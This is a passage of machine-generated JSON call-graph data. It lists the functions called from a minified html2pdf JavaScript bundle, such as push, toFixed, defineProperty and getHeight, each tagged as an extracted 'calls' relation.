"EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurrentPageInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getStringUnitWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "lines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ellipse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "output"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "publish"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "undefined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getStringUnitWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getStringUnitWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getPageInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unsubscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObjectDeferredBegin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObjectDeferredBegin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObjectDeferredBegin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "out"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObjectDeferred"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createAppearanceStream"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createMK"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createAppearanceStream"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createMK"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addField"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createAppearanceStream"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createMK"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createDefaultAppearanceStream"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 